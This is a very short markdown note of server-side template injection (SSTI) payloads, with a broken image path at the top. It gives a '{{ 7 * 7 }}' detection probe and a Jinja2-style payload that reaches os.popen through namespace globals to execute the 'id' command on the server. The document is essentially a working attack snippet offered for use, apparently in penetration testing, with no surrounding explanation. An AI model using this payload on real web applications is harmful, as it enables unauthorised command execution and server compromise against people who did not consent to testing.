 # SSTI Payloads

## Test Payloads
```
{{ 7 * 7 }}
```
```
Test for System Execution
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

